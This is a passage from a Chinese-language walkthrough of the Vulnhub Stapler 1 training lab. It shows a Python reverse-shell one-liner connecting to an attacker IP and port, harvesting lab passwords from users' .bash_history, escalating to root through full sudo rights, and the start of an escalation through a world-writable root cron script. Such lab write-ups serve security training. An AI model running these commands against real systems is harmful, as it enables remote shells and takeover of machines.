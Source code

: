 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.153.148",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![nc_listening_1234_python_getshell](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/nc_listening_1234_python_getshell.png)

# 0x05 权限提升

## Sudo 提权

获取靶机 shell 环境后，首先从各个用户的 .bash_history 命令操作日志着手，搜索其中有价值的信息。

打印出日志后，发现两条包含了用户名与口令的 ssh 连接命令，其中 **JKanode 用户的口令为 thisimypassword，peter 用户的口令为 JZQuyIN5**：

```bash
cat /home/*/.bash_history | grep -v exit
```

![cat_bash_history](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/cat_bash_history.png)

经验证，JKanode 与 peter 用户均能登录成功，其中 peter 用户会返回一个 zsh，按下 `q` 退出其配置初始化过程后，执行 `whoami && id` 命令查看用户信息，发现 **peter 用户拥有 sudo 用户组权限**：

![ssh_peter](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/ssh_peter.png)

执行 `sudo -l` 命令并输入密码，发现 peter 用户的 sudo 权限为 **(ALL : ALL) ALL**，表示 peter 用户可以在任何主机上，以任意用户的身份执行任意命令，具体请参考：

> [linux详解sudoers](https://www.cnblogs.com/jing99/p/9323080.html)

最后执行 `sudo su - root` 命令，即可获得 root 用户权限：

![sudo_root](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/sudo_root.png)

## Cron Jobs 提权

获取靶机 shell 环境后，还可以查看 cron 计划任务，搜索其中有价值的信息。

打印 cron 计划任务文件列表，发现若干可疑文件：

```bash
ls -alh /etc/*cron*
```

![ls_cron_jobs](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/ls_cron_jobs.png)

经过一番搜索，在 **/etc/cron.d/logrotate** 计划任务中，发现以 **root** 用户执行的 shell 脚本 **/usr/local/sbin/cron-logrotate.sh**，该脚本 5 分钟执行一次，但无实际任务执行。

此外，脚本权限为 **`-rwxrwxrwx`**，说明**任何用户可在此设置计划任务，并以 root 用户权限执行**：

![ls_cron_logrotate](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/ls_cron_logrotate.png)
